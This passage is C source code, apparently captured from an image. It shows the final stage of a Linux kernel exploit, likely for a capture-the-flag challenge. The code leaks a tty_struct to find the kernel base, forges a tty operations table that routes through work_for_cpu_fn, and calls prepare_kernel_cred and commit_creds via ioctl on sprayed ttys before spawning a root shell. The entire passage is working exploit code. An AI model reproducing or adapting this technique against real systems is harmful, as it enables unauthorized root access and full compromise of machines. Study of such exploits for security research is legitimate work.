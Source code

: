 ```c
        exit(-1);
    }

    fake_tty_op_idx = (tty_idx + 1)%0x10;
    vmlinux_base = (tty_data[3] & 0xfffffffffffff000) - 0xe8e000;

    info("tty_idx" , tty_idx );
    info("fake_tty_op_idx" , fake_tty_op_idx );
    info("vmlinux_base" , vmlinux_base );

    set_offset();

    edit(fake_tty_op_idx , 0x200 , buf);

    leak(buf);

    tty_addr = data[2*tty_idx];
    fake_tty_op_addr = data[2*fake_tty_op_idx];
    
    info("tty_addr" , tty_addr);
    info("fake_tty_op_addr" , fake_tty_op_addr);

    tty_data[3] = fake_tty_op_addr;
    tty_data[4] = prepare_kernel_cred;
    tty_data[5] = 0;

    for (int i = 0; i < 0x40; i++)
        data[i] = work_for_cpu_fn ;

    note_write(tty_idx , tty_buf);
    note_write(fake_tty_op_idx , buf);

    // getchar();
    for (int i = 0;i<0x80;i++)
        ioctl(tty_fd[i] , 114 , 114);

    note_read(tty_idx , buf);
    size_t root_struct = data[6];

    tty_data[3] = fake_tty_op_addr;
    tty_data[4] = commit_creds;
    tty_data[5] = root_struct;
    tty_data[6] = root_struct;

    info("root_struct" , root_struct);

    note_write(tty_idx , tty_buf);

    for (int i = 0;i<0x80;i++)
        ioctl(tty_fd[i] , 114 , 114);

    shell();
    // getchar();
    // 可以通过这种方法下断点来查看堆布局 pty_write

}
```
